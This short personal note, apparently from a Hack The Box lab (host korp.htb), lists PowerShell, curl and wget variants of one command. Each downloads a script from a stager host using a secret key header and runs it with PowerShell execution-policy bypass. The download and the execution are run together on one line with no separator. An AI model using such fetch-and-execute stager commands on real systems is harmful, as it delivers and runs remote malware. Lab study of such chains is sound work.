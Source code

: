 
2025-03-26 16:03

Tags: [[linux]]

### **Using PowerShell (Windows)**

Run this command to manually execute the request in PowerShell:

```
Invoke-WebRequest -Uri "http://korp.htb:53673/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1 powershell.exe -exec Bypass -File "a541a.ps1"
```
### **Using `curl` (Linux/macOS/Windows)**

On Linux or Windows (with WSL), use `curl`:

```
curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -o a541a.ps1 http://korp.htb:53673/a541a powershell -exec Bypass -File "a541a.ps1"
```

### **Using `wget` (Linux/macOS)**

```
wget --header="X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -O a541a.ps1 http://korp.htb:53673/a541a powershell -exec Bypass -File "a541a.ps1"
```

